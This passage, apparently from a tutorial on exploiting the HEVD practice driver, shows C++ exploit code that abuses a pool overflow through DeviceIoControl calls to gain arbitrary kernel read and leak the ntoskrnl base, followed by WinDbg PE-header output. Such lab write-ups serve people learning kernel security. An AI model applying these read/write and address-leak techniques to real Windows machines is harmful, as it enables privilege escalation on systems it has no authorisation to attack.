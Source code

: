 If this is the case, then we already have arbitrary read/write. To simplify, let's say we want to get the address of `ntoskrnl.exe`
```cpp
...
		if (tester != 0xdeadbeefdeadbeef) {

			printf("\n[%d] Affected allocation by the overflow -> 0x%p\n", i, HelperArray[i].HelperObjectAddress);

			UINT64 pExAllocatePoolWithTag = addrKrnl + 0x2008;

			HelperArray[i].Name = &pExAllocatePoolWithTag;
			DeviceIoControl(hFile, 0x222067, &HelperArray[i], sizeof(HelperArray[i]), &HelperArray[i], sizeof(HelperArray[i]), &bytes, nullptr);

			unsigned long long ntPointer = 0x9090909090909090;
			MyArwHelpObjIo.Name = &ntPointer;
			DeviceIoControl(hFile, 0x22206b, &MyArwHelpObjIo, sizeof(MyArwHelpObjIo), &MyArwHelpObjIo, sizeof(MyArwHelpObjIo), &bytes, nullptr);

			ntPointer -= 0x00b69010;

			printf("\n[Nt base] -> 0x%p\n", ntPointer);

			return true;
		}
...
```

To get the `nt` base, first we need to get the address of the IAT:
```WinDbg
0: kd> !dh KlfhHEVD -f

File Type: EXECUTABLE IMAGE
FILE HEADER VALUES
    8664 machine (X64)
       7 number of sections
687D2D8C time date stamp Sun Jul 20 19:55:24 2025

       0 file pointer to symbol table
       0 number of symbols
      F0 size of optional header
      22 characteristics
            Executable
            App can handle >2gb addresses

OPTIONAL HEADER VALUES
     20B magic #
   14.42 linker version
    5E00 size of code
   81400 size of initialized data
       0 size of uninitialized data
   8A140 address of entry point
    1000 base of code
         ----- new -----
fffff80552010000 image base
    1000 section alignment
     200 file alignment
       1 subsystem (Native)
   10.00 operating system version
   10.00 image version
   10.00 subsystem version
   8C000 size of image
     400 size of headers
   11867 checksum
```